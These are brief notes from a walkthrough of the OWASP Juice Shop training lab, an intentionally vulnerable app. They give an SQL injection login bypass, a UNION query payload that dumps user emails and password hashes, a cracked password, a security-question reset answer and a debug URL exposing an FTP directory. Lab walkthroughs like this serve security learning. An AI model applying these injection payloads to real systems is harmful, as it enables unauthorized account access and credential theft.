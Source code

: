 # OWASP JUICE SHOP

## BASIC INFO
```
export IP=10.10.23.156
```

## INJECTION

- **SQL Injection on admin account**
On the email field `something' OR 1=1 --`

- **SQL Injection on /rest/product/search?q=something**
`q=something')) UNION ALL SELECT NULL,email,password,NULL,NULL,NULL,NULL,NULL from users--`
Crack the hashes
Jim's password = ncc-1701

## BROKEN AUTHENTICATION

- **reset Jim's password**
Looking through the comments we can see Jim's replied about star fleet
on his shirt and replicator. Seems like he is James T. Kirk
and he has a brother named George Samuel Kirk
Answer to secret question = Samuel

## SENSITIVE DATA EXPOSURE
Looking on the link to terms of use

http://10.10.23.156/ftp/legal.md?md_debug=true

Then follow it to
http://10.10.23.156/ftp
acquisition.md